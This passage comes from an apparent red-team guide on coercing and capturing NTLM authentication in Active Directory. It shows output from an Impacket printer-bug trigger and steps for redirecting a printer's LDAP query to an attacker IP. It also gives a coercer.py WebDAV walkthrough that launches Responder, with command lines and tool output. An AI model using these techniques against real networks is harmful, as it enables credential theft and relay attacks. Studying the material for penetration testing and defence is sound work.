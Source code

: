 				[*] Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

				[*] Attempting to trigger authentication via rprn RPC at dc01.microsoftdelivery.com
				[*] Bind OK
				[*] Got handle
				DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
				[*] Triggered RPC backconnect, this may or may not have worked

#### Response over LDAP
* Default/Weak Credentials
	* Printers
		* <details><summary>References (Click to expand)</summary><p>
			[https://twitter.com/nullenc0de/status/1091131789924540416](https://twitter.com/nullenc0de/status/1091131789924540416)
		* <details><summary>Manual (Click to expand)</summary><p>
			* Examples
				* Example 1: LDAP Query
					1. Log in to printer
					1. Look for LDAP configured
					1. Select the Attacker IP for target
					1. Initiate an LDAP query
						* Note: You'll want a way to manage the authentication (capture/relay) ahead of this step
					1. 
			* Automated
				* percx's GitHub: Praeda -<br />[https://github.com/percx/Praeda](https://github.com/percx/Praeda)

#### Response over HTTP/s
##### Enable WebDav
* Domain User Credentials Required
	* General or Many Methods
		* <details><summary>coercer.py (Click to expand)</summary><p>
			* Examples
				* Example 1: Coerce WebDAV authentication, Utilize Responder Windows name
					1. Initiate your relay or auth. capturing tool ([AD NTLM Capture and Relay Attacks Guide](Testaments_and_Books/Redvelations/Active_Directory/003-1_AD_NTLM_Capture_and_Relay_Attacks.md))
						* Note: In testing, targeting an ldap domain information dump worked, but adding a machine account did not.
					1. Initiate Responder (if it isn't already initiated in the previous step)

							python3 Responder.py -I eth1
						* <details><summary>Example Output (Click to expand)</summary><p>

							                                         __
							  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
							  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
							  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
							                   |__|

							           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

							  To support this project:
							  Patreon -> https://www.patreon.com/PythonResponder
							  Paypal  -> https://paypal.me/PythonResponder
							  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
							  To kill this script hit CTRL-C
